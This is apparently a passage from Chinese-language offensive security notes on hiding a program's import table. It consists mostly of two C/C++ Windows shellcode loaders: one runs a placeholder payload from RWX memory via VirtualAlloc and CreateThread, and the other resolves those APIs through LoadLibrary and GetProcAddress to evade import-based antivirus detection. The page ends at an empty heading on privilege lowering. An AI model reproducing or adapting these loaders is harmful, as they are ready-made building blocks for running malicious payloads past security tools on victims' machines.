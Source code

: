 
## 隐藏导入表

```
#include <Windows.h>
int main() {
DWORD dwThreadId;
HANDLE hThread;
unsigned char buf[] = "shellcode";
LPVOID szBuffer = VirtualAlloc(NULL, sizeof buf,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
memcpy(szBuffer, buf, sizeof buf );
hThread = CreateThread(NULL, NULL,(LPTHREAD_START_ROUTINE)szBuffer, NULL,
NULL, &dwThreadId);
WaitForSingleObject(hThread, INFINITE);
return 0;
}
```

## LoadLibrary+GetProcAddress

```CPP
#include <Windows.h>

int main() {
    UCHAR buf[] = "shellcode";
    typedef LPVOID(WINAPI* pVirtualAlloc)(LPVOID, DWORD, DWORD, DWORD);
    typedef BOOL(WINAPI* pVirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
    typedef HANDLE(WINAPI* pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
    typedef DWORD(WINAPI* pWaitForSingleObject)(HANDLE, DWORD);
    DWORD oldProtect = 0;
    DWORD dwThreadId;
    HMODULE hKernal32 = LoadLibrary(L"Kernel32.dll");
    pVirtualAlloc VirtualAlloc = (pVirtualAlloc)GetProcAddress(hKernal32, "VirtualAlloc"); //拿到VirtualAlloc真正地址
    pVirtualProtect VirtualProtect = (pVirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");
    pCreateThread CreateThread = (pCreateThread)GetProcAddress(hKernal32, "CreateThread");
    pWaitForSingleObject WaitForSingleObject = (pWaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");
    VirtualProtect(&buf, sizeof buf, PAGE_EXECUTE_READWRITE, &oldProtect);
    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)(CHAR*)buf, NULL, NULL, &dwThreadId);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```
# windows特殊机制

## 降权

